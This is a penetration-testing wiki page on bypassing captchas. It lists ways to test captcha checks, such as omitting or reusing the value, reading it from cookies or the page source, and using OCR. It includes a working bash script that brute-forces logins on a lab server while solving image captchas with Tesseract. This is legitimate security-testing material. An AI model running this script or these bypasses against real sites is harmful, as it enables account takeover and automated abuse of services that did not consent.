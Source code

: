 # Captcha Bypass

To **automate** the **testing** of some functions of the server that allows user input it **could** be **needed** to **bypass** a **captcha** implementation. Therefore, try to test for these things:

* **Do not send the parameter** related to the captcha.
  * Change from POST to GET or other HTTP Verbs
  * Change to JSON or from JSON
* Send the **captcha parameter empty**.
* Check if the value of the captcha is **in the source code** of the page.
* Check if the value is **inside a cookie.**
* Try to use an **old captcha value**
* Check if you can use the **same** captcha **value** several times with **the same or different sessionID.**
* If the captcha consists on a **mathematical operation** try to **automate** the **calculation.**
* If the captcha consists of **read characters from an image**, check manually or with code **how many images** are being used and if only a **few images are being used, detect them by MD5.**
* Use an **OCR** ([https://github.com/tesseract-ocr/tesseract](https://github.com/tesseract-ocr/tesseract)).

#### Useful Regex for Scripting bypasses

* [Useful Regex for Scripting bypasses](regular-expression-useful-tips.md)

#### OCR bypass with Tesseract

```bash
#!/bin/bash

USERS="./users.txt"
PASSWORDS="./passwords.txt"

for USER in $(cat $USERS)
do
  for PASS in $(cat $PASSWORDS)
  do
    
    STATUS="Captcha incorreto"
    
    while [ "$STATUS" == "Captcha incorreto" ]
    do

      curl -s "http://192.168.48.133/bruteforce5/captcha.php?l=150&a=50&tf=20&ql=5" -H 'Cookie: PHPSESSID=r8n9p20c0jtf8dob9ef787sqn7' --output image

      CAPTCHA=$(tesseract image stdout | tr -d " " | xargs)

      STATUS=$(curl -s 'http://192.168.48.133/bruteforce5/index.php' -H 'Cookie: PHPSESSID=r8n9p20c0jtf8dob9ef787sqn7' --data-raw "username=$USER&password=$PASS&captcha=$CAPTCHA" -L | egrep -o "<p style=\"color:red\" >.*</p>" | sed -r "s/.*>(.*)<.*/\1/g")
        
      if [ "$STATUS" == "" ]
      then    
        COLOR='\033[0;32m'
        NC='\033[0m' # No Color        
        STATUS="Sucesso"
        
      elif [ "$STATUS" == "Captcha incorreto" ]
      then
        COLOR='\033[0;33m'
        NC='\033[0m' # No Color
      else
        COLOR='\033[0;31m'         
      fi
      
      echo -e "${COLOR}User: $USER - Pass: $PASS - Status: $STATUS${NC}"  
    done  
  
  done
done
```
